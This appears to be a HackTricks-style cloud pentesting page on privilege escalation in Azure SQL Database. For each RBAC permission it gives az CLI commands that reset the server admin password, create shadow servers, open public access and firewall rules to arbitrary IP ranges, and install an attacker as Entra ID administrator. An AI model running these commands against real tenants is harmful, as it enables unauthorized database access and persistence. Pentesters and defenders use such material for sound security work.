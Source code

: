 # Az - SQL Database Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Privesc

For more information about SQL Database check:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### "Microsoft.Sql/servers/read" && "Microsoft.Sql/servers/write"

With these permissions, a user can perform privilege escalation by updating or creating Azure SQL servers and modifying critical configurations, including administrative credentials. This permission allows the user to update server properties, including the SQL server admin password, enabling unauthorized access or control over the server. They can also create new servers, potentially introducing shadow infrastructure for malicious purposes. This becomes particularly critical in environments where "Microsoft Entra Authentication Only" is disabled, as they can exploit SQL-based authentication to gain unrestricted access.

```bash
# Change the server password
az sql server update \
  --name <server_name> \
  --resource-group <resource_group_name> \
  --admin-password <new_password>

# Create a new server
az sql server create \
  --name <new_server_name> \
  --resource-group <resource_group_name> \
  --location <location> \
  --admin-user <admin_username> \
  --admin-password <admin_password>
```

Additionally it is necesary to have the public access enabled if you want to access from a non private endpoint, to enable it:

```bash
az sql server update \
  --name <server-name> \
  --resource-group <resource-group> \
  --enable-public-network true
```

### "Microsoft.Sql/servers/firewallRules/write"

An attacker can manipulate firewall rules on Azure SQL servers to allow unauthorized access. This can be exploited to open up the server to specific IP addresses or entire IP ranges, including public IPs, enabling access for malicious actors. This post-exploitation activity can be used to bypass existing network security controls, establish persistence, or facilitate lateral movement within the environment by exposing sensitive resources.

```bash
# Create Firewall Rule
az sql server firewall-rule create \
    --name <new-firewall-rule-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --start-ip-address <start-ip-address> \
    --end-ip-address <end-ip-address>

# Update Firewall Rule
az sql server firewall-rule update \
    --name <firewall-rule-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --start-ip-address <new-start-ip-address> \
    --end-ip-address <new-end-ip-address>
```

Additionally, `Microsoft.Sql/servers/outboundFirewallRules/delete` permission lets you delete a Firewall Rule.
NOTE: It is necesary to have the public access enabled

### ""Microsoft.Sql/servers/ipv6FirewallRules/write"

With this permission, you can create, modify, or delete IPv6 firewall rules on an Azure SQL Server. This could enable an attacker or authorized user to bypass existing network security configurations and gain unauthorized access to the server. By adding a rule that allows traffic from any IPv6 address, the attacker could open the server to external access."

```bash
az sql server firewall-rule create \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --name <rule_name> \
  --start-ip-address <start_ipv6_address> \
  --end-ip-address <end_ipv6_address>
```

Additionally, `Microsoft.Sql/servers/ipv6FirewallRules/delete` permission lets you delete a Firewall Rule.
NOTE: It is necesary to have the public access enabled

### "Microsoft.Sql/servers/administrators/write" && "Microsoft.Sql/servers/administrators/read"

With this permissions you can privesc in an Azure SQL Server environment accessing to SQL databases and retrieven critical information. Using the the command below, an attacker or authorized user can set themselves or another account as the Azure AD administrator. If "Microsoft Entra Authentication Only" is enabled you are albe to access the server and its instances. Here's the command to set the Azure AD administrator for an SQL server:

```bash
az sql server ad-admin create \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --display-name <admin_display_name> \
  --object-id <azure_subscribtion_id>
```

### "Microsoft.Sql/servers/azureADOnlyAuthentications/write" && "Microsoft.Sql/servers/azureADOnlyAuthentications/read"

With these permissions, you can configure and enforce "Microsoft Entra Authentication Only" on an Azure SQL Server, which could facilitate privilege escalation in certain scenarios. An attacker or an authorized user with these permissions can enable or disable Azure AD-only authentication.

```bash
#Enable
az sql server azure-ad-only-auth enable \
  --server <server_name> \
  --resource-group <resource_group_name>

#Disable
az sql server azure-ad-only-auth disable \
  --server <server_name> \
  --resource-group <resource_group_name>
```

{{#include ../../../banners/hacktricks-training.md}}



